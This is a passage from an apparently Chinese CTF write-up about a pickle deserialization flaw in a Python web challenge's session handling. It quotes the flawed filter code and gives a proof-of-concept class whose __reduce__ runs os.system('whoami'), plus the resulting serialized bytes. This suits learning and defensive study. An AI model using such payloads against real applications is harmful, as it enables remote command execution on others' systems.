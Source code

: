 ![flag](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/yDw2L)


### python is the best language #2

考点：session处存在反序列化漏洞

`app/others.py` `FilterException`类`load`方法存在反序列化漏洞
```python
class FilterException(Exception):

    def __init__(self, value):
        super(FilterException, self).__init__(
            'the callable object {value} is not allowed'.format(value=str(value)))


def _hook_call(func):
    def wrapper(*args, **kwargs):
        print args[0].stack
        if args[0].stack[-2] in black_type_list:
            raise FilterException(args[0].stack[-2])
        return func(*args, **kwargs)
    return wrapper


def load(file):
    unpkler = Unpkler(file)
    unpkler.dispatch[REDUCE] = _hook_call(unpkler.dispatch[REDUCE])
    return Unpkler(file).load()
```


先测试一下序列化与反序列化过程可能产生的安全问题

- 序列化

```python
import os
from pickle import Pickler

class test(object):
    def __reduce__(self):
        return (os.system, ('whoami'))
evil = test()

def dump(file):
    pk = Pickler(file)
    pk.dump(evil)

with open('test', 'wb') as f:
    dump(f)
```
会将python对象序列化成字符串写入文件，类似这个样子
```
cnt
system
p0
(S'whoami'
p1
tp2
Rp3
.
```
